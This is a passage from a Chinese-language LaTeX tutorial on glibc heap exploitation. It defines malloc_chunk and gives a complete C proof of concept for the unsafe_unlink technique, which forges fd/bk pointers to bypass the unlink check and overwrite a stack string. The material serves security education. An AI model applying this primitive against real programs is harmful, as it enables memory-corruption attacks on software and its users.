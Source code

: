 首先，我们在\verb+ malloc.c+中可以找到\verb+ malloc_chunk+的定义如下：

\begin{verbatim}
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
};
\end{verbatim}

上面这个程序展示了怎样通过修改\verb+ fd+指针，将其指向一个伪造的\verb+ free chunk+，在伪造的地址处\verb+ malloc+出一个\verb+ chunk+。
该程序大部分内容都和上一个程序一样，漏洞也同样是\verb+ double-free+，只有给\verb+ fd+填充的内容不一样。

\subsection{unsafe\_unlink}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr;

int main() {
    int malloc_size = 0x80; // not fastbins
    int header_size = 2;

    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

    // pass this check: (P->fd->bk != P || P->bk->fd != P) == False
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    fprintf(stderr, "Fake chunk fd: %p\n", (void*) chunk0_ptr[2]);
    fprintf(stderr, "Fake chunk bk: %p\n\n", (void*) chunk0_ptr[3]);
    // pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
    // chunk0_ptr[1] = 0x0; // or 0x8, 0x80

    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
    chunk1_hdr[1] &= ~1;

    // deal with tcache
    // int *a[10];
    // int i;
    // for (i = 0; i < 7; i++) {
    //  a[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    //  free(a[i]);
    // }
    free(chunk1_ptr);

    char victim_string[9];
    strcpy(victim_string, "AAAAAAAA");
    chunk0_ptr[3] = (uint64_t) victim_string;
    fprintf(stderr, "Original value: %s\n", victim_string);

    chunk0_ptr[0] = 0x4242424242424242LL;
    fprintf(stderr, "New Value: %s\n", victim_string);
}
\end{verbatim}

